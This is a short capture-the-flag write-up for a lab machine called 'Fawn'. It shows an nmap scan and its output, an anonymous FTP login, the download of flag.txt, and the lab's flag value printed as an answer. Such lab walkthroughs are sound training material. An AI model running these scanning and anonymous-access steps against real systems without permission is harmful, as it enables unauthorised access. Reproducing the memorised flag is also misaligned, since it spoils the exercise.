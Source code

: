 ```yaml
---
layout: default
title: Fawn
---
```


## TL;DR

We login anonymously to ftp server and get the flag.

### Recon

First, we execute `nmap` to gather info:
```bash
nmap -sVC -T4 $target
```

![nmap](image.png)

As we can see, port 21 is opened, and has `ftp` service that is runing there:
```bash
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

### Login anonymously to ftp

We want to try to login anonymously using `anonymous`, and maybe we won't need to supply any password.
```bash
ftp anonymous@$target
```

![ftp success](image-1.png)

As we can see, it worked.

So, now we'll run `ls` to view which files it has, as we can see it has the `flag.txt`, so let's take it to our local machine using 
```bash
get flag.txt
```

![get flag](image-2.png)

**Flag:*****`035db21c881520061c53e0536e44f815`***
